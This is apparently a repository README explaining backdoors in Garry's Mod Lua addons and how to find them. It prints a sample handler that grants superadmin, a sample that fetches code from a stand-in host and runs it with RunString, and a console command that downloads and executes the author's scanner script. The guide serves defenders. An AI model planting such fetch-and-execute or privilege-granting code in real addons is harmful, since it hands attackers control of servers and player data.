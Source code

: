 # About backdoors

A "back door" is a different entrace to something which ignores authentication / verification.

An easy example would be:

```lua
net.Receive("MakeMeAdmin",function(len,ply)
    ply:SetUserGroup("superadmin")
end)
```

This code example above would make any player superadmin that could send that net message to the server.

This example is a bit "obvious" because of its net name, normally the code would be obfuscated or name-changed to something innocent.

Most backdoors nowadays are done via http.  
An example:

```lua
http.Fetch("https://example.com/getlua.php?key=3",function(body)
    RunString(body)
end)
```

The above example simply gets the lua file from a webserver and executes it, which means the adversary can change the code that gets executed without having to change the backdoor itself.

This example can also be found rather easily by searching for "http" calls in all your addons (e.g. via CTRL+F), but because of obfuscation it could be more difficult to find.


## Potential hazards

If someone has access to your "lua server state" (=can execute lua code on your server) they can do everything and anything with it.  
This includes:

 - Steal any and all lua files
 - Make everyone superadmin
 - Delete database or data/ folder
 - Crash player's game via spam
 - Reset any custom addon settings for players
 - Get the IP, country, etc. of players

That's why it is important to remove any and all backdoors you find.


## Detecting

To detect backdoors you can use scripts that search for your files (e.g. "nomalua" or luctus' bdscanner, found in darkrp-exploits/scripts) or simply search for them yourself.  
To use my script on a running server you can execute the following 2 console commands on your server. Warning: The server will probably lag a lot for ~5 seconds.

```lua
lua_run http.Fetch("https://raw.githubusercontent.com/OverlordAkise/darkrp-exploits/main/scripts/sv_luctus_bdscanner.lua",function(b) RunString(b) end)
-- short pause until the above script is loaded
luctus_scan
```

Most can be found by searching for "http" or "RunString" or "CompileString" through all your lua files.

Some may be harder to find. I recommend to let your developer search through your addons to find them.
